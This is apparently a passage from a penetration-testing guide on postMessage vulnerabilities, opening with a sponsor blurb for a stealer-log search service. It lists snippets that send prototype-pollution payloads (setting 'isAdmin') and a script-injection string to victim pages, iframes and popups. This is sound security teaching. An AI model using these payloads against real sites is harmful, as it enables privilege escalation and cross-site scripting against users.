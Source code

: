# PostMessage Vulnerabilities

## PostMessage Vulnerabilities


### [WhiteIntel](https://whiteintel.io)

<figure><img src="../../.gitbook/assets/image (1227).png" alt=""><figcaption></figcaption></figure>

[**WhiteIntel**](https://whiteintel.io) is a **dark-web** fueled search engine that offers **free** functionalities to check if a company or its customers have been **compromised** by **stealer malwares**.

Their primary goal of WhiteIntel is to combat account takeovers and ransomware attacks resulting from information-stealing malware.

You can check their website and try their engine for **free** at:

{% embed url="https://whiteintel.io" %}

***

## Send **PostMessage**

**PostMessage** uses the following function to send a message:

```bash
targetWindow.postMessage(message, targetOrigin, [transfer]);

# postMessage to current page
window.postMessage('{"__proto__":{"isAdmin":True}}', '*')

# postMessage to an iframe with id "idframe"
<iframe id="idframe" src="http://victim.com/"></iframe>
document.getElementById('idframe').contentWindow.postMessage('{"__proto__":{"isAdmin":True}}', '*')

# postMessage to an iframe via onload
<iframe src="https://victim.com/" onload="this.contentWindow.postMessage('<script>print()</script>','*')">

# postMessage to popup
win = open('URL', 'hack', 'width=800,height=300,top=500');
win.postMessage('{"__proto__":{"isAdmin":True}}', '*')

# postMessage to an URL
window.postMessage('{"__proto__":{"isAdmin":True}}', 'https://company.com')

# postMessage to iframe inside popup
win = open('URL-with-iframe-inside', 'hack', 'width=800,height=300,top=500');
## loop until win.length == 1 (until the iframe is loaded)
win[0].postMessage('{"__proto__":{"isAdmin":True}}', '*')
```
